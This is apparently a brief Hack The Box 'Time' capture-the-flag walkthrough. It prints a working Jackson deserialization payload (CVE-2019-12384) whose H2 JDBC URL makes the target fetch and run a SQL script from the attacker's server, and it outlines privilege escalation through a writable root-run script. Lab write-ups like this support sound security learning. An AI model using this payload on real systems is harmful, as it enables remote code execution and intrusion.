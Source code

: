 ```yaml
---
layout: post
title:  Hack The Box - Time
category: walkthrough
date:   2020-10-25 06:21:00
---
```

# ![time](/assets/img/time/time.png)  
Opened the ip with firefox  
Eentering "test" with validator(beta) selected it shows the processor -fasterxml/jackson
![browser](/assets/img/time/time2.png)  

### Exploit 
Found ![this](https://github.com/jas502n/CVE-2019-12384) exploit after google  
Changed the file inject.sql
![inject.sql](/assets/img/time/time4.png)  

Opened my python srver, started nc and used this payload to upload inject.sql to the server
>[
>"ch.qos.logback.core.db.DriverManagerConnectionSource", 
>     {
>        "url":
>"jdbc:h2:mem:;TRACE\_LEVEL\_SYSTEM\_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.XX.XX:80/inject.sql'"
>  }
>]
![payload](/assets/img/time/time3.png)  

![server](/assets/img/time/time5.png)  
Got shell as pericles and found a writable file in /bin  
![periclesHome](/assets/img/time/time8.png)  
![timer\_backup](/assets/img/time/time6.png)  
Edited the file to get root's flag  
![editTimer](/assets/img/time/time7.png)  
![flag](/assets/img/time/time9.png)  

